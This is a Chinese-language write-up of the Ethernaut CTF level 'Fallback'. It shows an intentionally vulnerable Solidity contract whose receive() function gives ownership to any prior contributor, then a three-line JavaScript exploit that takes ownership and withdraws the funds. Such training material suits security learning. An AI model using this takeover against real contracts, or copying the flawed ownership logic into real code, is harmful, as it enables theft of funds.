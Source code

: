 ```yaml
---
title: Ethernaut 闯关笔记 第2关 Fallback
date: 2023-11-16 11:36:35
tags:
---
```


待攻击的合约代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

调用 `contribute()` 可以为合约贡献 ETH ，为合约贡献最多的地址将成为合约的 owner 。 owner 可以提取合约全部的资金（也就是赢者通吃）。

合约创建者初始默认有 1000ETH 的贡献，也就是说其他的地址需要贡献大于 1000ETH 的资金。这是很困难的。

但是 `receive()` 函数也可以改变 owner ，并且其条件更加简单，只需要发送两次资金即可。

攻击代码：

```javascript
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```